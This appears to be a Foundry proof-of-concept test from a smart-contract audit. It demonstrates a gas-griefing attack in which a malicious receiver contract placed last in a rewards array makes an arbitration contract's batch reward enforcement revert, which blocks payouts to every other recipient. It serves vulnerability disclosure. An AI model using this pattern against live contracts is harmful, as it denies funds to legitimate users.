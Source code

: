 ```solidity
        // the attack
        for (uint256 i = 0; i < length; i++) {
            rewards[i] = ArbitrationBase.MultipleEnforcementElement({
                withFees: true,
                recipient: userGroup[i],
                tokenAmounts: new Rewards.ERC20Reward[](0),
                nativeTokenAmount: 1 ether,
                gasToTarget: vaultDelegate.UNTRUSTED_TARGET_GAS_CAP()
            });
        }
     
        // Then, the malicious whitehat is added at the end of the array to demonstrate 
        // the worst case scenario for the grief attack
        rewards[length] = ArbitrationBase.MultipleEnforcementElement({
            withFees: true,
            recipient: address(receiver),
            tokenAmounts: new Rewards.ERC20Reward[](0),
            nativeTokenAmount: 1 ether,
            gasToTarget: vaultDelegate.UNTRUSTED_TARGET_GAS_CAP()
        });
        bytes32 arbitrationId = arbitration.computeArbitrationId(referenceId, address(vault), whitehat);


        uint gasUsed;
 

        uint initialGas = gasleft();
        vm.txGasPrice(123456);

        vm.startPrank(arbiter);
        // We expect this enforceMultipleRewards because of the malicious whitehat's 
        // smart contract that causes the function to revert due to a function that
        // requires too much gas.
        vm.expectRevert();
        arbitration.enforceMultipleRewards(arbitrationId, rewards, true);
        vm.stopPrank();

        console.log("balance of random group member after: ", address(userGroup[0]).balance);
        uint finalGas = gasleft();
        gasUsed = initialGas - finalGas;
        console.log("Gas used: ", gasUsed);
        (, ArbitrationBase.ArbitrationStatus status, , , ) = arbitration.arbData(arbitrationId);
        console.log("status: ", uint256(status));
        console.log(uint256(ArbitrationBase.ArbitrationStatus.Open));

    }

```
